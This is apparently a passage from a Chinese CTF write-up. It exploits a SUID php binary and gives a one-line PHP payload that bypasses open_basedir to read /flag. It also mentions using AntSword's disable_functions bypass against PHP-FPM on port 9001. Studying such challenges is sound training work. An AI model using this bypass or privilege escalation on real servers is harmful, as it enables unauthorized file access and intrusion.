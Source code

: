 ![image-20211108190444115](images/15.png)

看看SUID权限

发现php有SUID权限

![image-20211108190631700](images/16.png)

直接进入php的交互shell,绕过open_basedir读取flag

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/flag');
```

![image-20211108191225865](images/17.png)

除此之外,这种去打FPM的可以用蚁剑的绕过disable_functions的插件一把梭,直接一键利用

# 第二种方法

disable_function 中ban了fsockopen函数，但我们用的蚁剑bypass FMP实际上就有用到这个函数，所以不能直接使用绕过。其次这题的FastCGI服务开在9001端口，这就得手动到蚁剑的文件中修改了
